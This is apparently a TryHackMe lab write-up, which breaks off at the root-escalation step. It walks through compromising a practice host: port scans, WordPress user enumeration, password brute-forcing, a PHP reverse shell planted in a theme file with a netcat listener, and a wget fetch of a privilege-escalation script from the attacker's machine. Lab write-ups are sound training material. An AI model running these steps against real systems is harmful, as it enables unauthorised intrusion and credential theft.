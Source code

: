 # Internal

> Penetration Testing Challenge

<br>

### Process:

1. port scan:
	- scan all ports: `sudo nmap -T4 -p- 10.10.216.36`
	- scan found ports: `sudo nmap -T4 -A -p 22,80 10.10.216.36`
	- edit attacker `/etc/hosts` file to add: `10.10.216.36 internal.thm`
2. enumerate port 22:
	- OpenSSH 7.6p1 Ubuntu found
3. enumerate port 80:
	- visit website at http://10.10.216.36 = default Apache2 web page
	- run gobuster: `gobuster dir -u http://10.10.216.36 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
	- found wordpress site running
	- run wordpress scanner and enumerate everything: `wpscan --url http://10.10.216.36/blog -e`
		- found "admin" user
	- try to brute force admin users password: `wpscan --url http://10.10.216.36/blog -U admin -P /usr/share/wordlists/rockyou.txt`
		- found "my2boys" password for admin
4. exploit WordPress panel:
	- login to WordPress admin panel with "admin:my2boys"
	- go to “Appearance > Theme Editor > 404.php” and replace the PHP code with a [PHP reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
	- setup netcat listener: `nc -lvnp 1234`
	- update the file and call the template: `http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php`
5. privilege esclation:
	- download linPEAS onto system: `cd /var/tmp && wget http://10.11.31.198:8080/linpeas.sh`
	- run linPEAS: `bash linpeas.sh`
	- found phpmyadmin login = "wordpress:wordpress123"
	- look around filesystem:
		- found interesting file in "/opt" directory call "wp-save.txt"
		- contains login credentials "aubreanna:bubb13guM!@#123"
	- login as aubreanna:
		- find user flag: `cat /home/aubreanna/user.txt`
		- user flag = **THM{int3rna1_fl4g_1}**
6. esclate to root:
	-  found jenkins service running on internal host at 172.17.0.2:8080
	-  ... 

